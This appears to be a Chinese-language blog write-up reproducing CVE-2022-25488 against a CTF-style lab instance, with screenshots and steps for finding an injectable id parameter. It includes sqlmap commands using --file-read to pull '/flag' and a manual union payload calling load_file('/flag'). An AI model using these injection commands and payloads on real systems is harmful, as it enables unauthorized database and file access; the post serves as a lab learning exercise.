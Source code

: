```yaml
---
title: CVE-2022-25488
subtitle:
date: 2025-03-14T12:13:30+08:00
slug: bd46488
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

![](images/2745a2b099742c4446fd668420e9ea2b.png)
访问网站发现提示404，
![](images/a442de9815c07d10ffa1cd43b3a11721.png)
尝试访问所给路径/admin/ajax/avatar.php，依然没有任何显示，访问上一路径
![](images/1ccf0ae4708780f319188f82bdd0b5ee.png)
访问其他文件得到报错
![](images/ab1be5fd8475bfc5e3cfcae18dea3f6c.png)
拿到参数id，sqlmap进行尝试

``` Shell
sqlmap -u "http://eci-2ze1ldkkzy8hjpn1egve.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1"
```

![](images/cbb840f42b684ef446954e80ab685f23.png)
得到数据库类型，进行读flag

``` Shell
sqlmap -u "http://eci 2ze1ldkkzy8hjpn1egve.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1" -D "mysql" --file-read "/flag"
```

![](images/5cd3df30766743afc166042079f90002.png)


手工注入
查看avatar.php内容
![](images/d7f9a5e9bffaa598faa8a48d3ab0563b.png)
尝试注入点?id=1和?id=1' ，发现在id=1时源码发生变化
![](images/1d7ca1b0d577027c1bfc151240470eff.png)
再次尝试id=1 and 1=1 ，判断为字符型
![](images/b82417376d2dc6503ee50c95220cd12e.png)
sql报错注入，使id语法错误，回显flag
?id=-1 union (select load_file('/flag'))#
![](images/5ed87b645cfc9859d8ddfa114515d68f.png)
同样拿到flag





